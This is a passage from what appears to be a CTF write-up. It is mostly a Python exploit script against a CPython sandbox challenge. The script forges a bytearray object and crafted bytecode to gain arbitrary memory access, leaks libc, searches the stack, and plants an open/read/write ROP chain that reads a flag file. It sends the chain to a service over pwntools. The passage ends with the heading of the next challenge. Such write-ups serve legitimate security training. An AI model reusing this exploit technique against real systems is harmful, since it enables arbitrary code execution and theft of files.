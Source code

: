 ```python=
fake_bytearray=p64(0x1000)+p64(id(bytearray))+p64(0x7fffffffffffffff)+p64(0)+p64(0)+p64(0)+p64(0)
fake_bytearray_obj=bytearray(fake_bytearray)
fake_bytearray_obj_ptr=id(fake_bytearray_obj)+0x20
const_tuple_ptr=id(const_tuple)+0x18
offset=(fake_bytearray_obj_ptr-const_tuple_ptr)//8

exp_func_bytecode=b""
for i in range(4):
	exp_func_bytecode+=p8(EXTENDED_ARG)+p8(offset>>(32-i*8))
exp_func_bytecode+=p8(LOAD_CONST)+p8(offset)
exp_func_bytecode+=p8(RETURN_VAL)

flag_str="flag"
flag_str_addr=id(flag_str)+0x30
exp_func.__code__=exp_func.__code__.__class__(0,0,0,0,0,0,exp_func_bytecode,const_tuple,(),(),"","",0,b"")
exp_ptr=exp_func()

libc_base=u64(exp_ptr[{}:{}+8])-{}
print("libc_base:",hex(libc_base))
pop_rdi=libc_base+0x23b72
pop_rsi=libc_base+0x2604f
pop_rdx_r12=libc_base+0x119241
environ_addr={}
ope_addr=libc_base+{}
read_addr=libc_base+{}
write_addr=libc_base+{}
libc_start_main_ret_addr=libc_base+{}
environ_heap_addr=u64(exp_ptr[environ_addr:environ_addr+8])
stack_addr=u64(exp_ptr[environ_heap_addr:environ_heap_addr+8])&0xfffffffffffffff0#-0x368
while(stack_addr):#search for return addr in stack
	tmp=u64(exp_ptr[stack_addr:stack_addr+8])
	if(tmp==libc_start_main_ret_addr):
		break
	stack_addr-=8
flag_addr=stack_addr+0x200

payload=p64(pop_rdi)+p64(flag_str_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx_r12)+p64(0)+p64(0)+p64(ope_addr)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx_r12)+p64(0x40)+p64(0)+p64(read_addr)
payload+=p64(pop_rdi)+p64(1)+p64(write_addr)
c=stack_addr
for x in payload:
	exp_ptr[c]=x
	c+=1
EOF
""".format(malloc_got,malloc_got,malloc_offset,environ_offset,open_offset,read_offset,write_offset,libc_start_main_offset)

print(len(code))
with open("exp","w") as fd:
	fd.write(code)

sh=remote("127.0.0.1",1337)
sh.sendafter('> ',code)
sh.interactive()
```
## Toy_bricks
### 漏洞分析
> 漏洞发现者: [@P1umer](https://p1umer.github.io/)
